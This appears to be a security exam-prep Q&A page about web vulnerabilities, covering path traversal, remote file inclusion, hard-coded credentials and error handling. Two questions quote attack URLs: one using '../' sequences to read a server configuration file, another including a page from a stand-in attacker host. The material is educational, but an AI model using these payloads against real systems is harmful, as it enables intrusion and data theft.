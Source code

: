 
**Q.** After some reconnaissance efforts, an attacker identified a web server hosted on a Linux system. The attacker then entered the URL shown below,  
  
**http://192.168.46.82:45/vulnerabilities/fi/?page=../../../../../etc/httpd/httpd.conf**  
  
Which type of web vulnerability is being exploited by the attacker?

**A.** A directory traversal vulnerability (often called path traversal) can allow attackers to access files and directories stored outside the web root folder. It is possible to exploit path traversal vulnerabilities by manipulating variables that reference files with the dot-dot-slash (../) sequence and its variations or by using absolute file paths to access files on the vulnerable system. In this example, the attacker is trying to view the web server configuration file.

---

**Q.** An attacker enters the following URL to exploit vulnerabilities in a web application:  
  
**http://192.168.47.8:76/files/fi/?page=http://malicious.h4cker.org/cookie.html**  
  
Which type of vulnerability did the attacker try to exploit?

**A.** A remote file inclusion (RFI) vulnerability occurs when a web application allows a user to execute code hosted on the attacking system. In this case, the attacker tried to run the web content on the attacker site.

---

**Q.** Because of an insecure code practice, an attacker can leverage and completely compromise an application or the underlying system. What insecure code practice enabled this catastrophic threat?

**A.** Hard-coded credentials are catastrophic flaws that attackers can leverage to completely compromise an application or the underlying system.

---

**Q.** What is the best practice to mitigate the vulnerabilities from a lack of proper error handling in an application?

**A.** Improper error handling is a weakness and security malpractice that can provide information to help an attacker perform additional attacks on the targeted system. A best practice is to handle error messages according to a well-thought-out scheme that provides a meaningful error message to the user, diagnostic information to developers and support staff, and no useful information to an attacker.

---

**Q.** 

**A.** 

---
